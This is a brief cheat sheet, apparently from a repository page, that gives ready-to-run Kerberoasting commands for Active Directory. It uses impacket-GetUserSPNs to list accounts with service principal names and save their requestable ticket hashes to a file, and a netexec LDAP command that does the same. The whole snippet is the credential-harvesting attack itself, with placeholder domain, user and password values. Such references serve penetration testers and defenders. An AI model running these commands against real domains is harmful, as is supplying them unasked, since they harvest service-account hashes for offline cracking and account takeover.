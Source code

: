 ## show users with SPNs

impacket-GetUserSPNs domain/user:password

## save hashes

impacket-GetUserSPNs domain/user:password -outputfile hashes -request

or

netexec ldap dcip -u user -p password -d domain --kerberoasting KERBEROASTING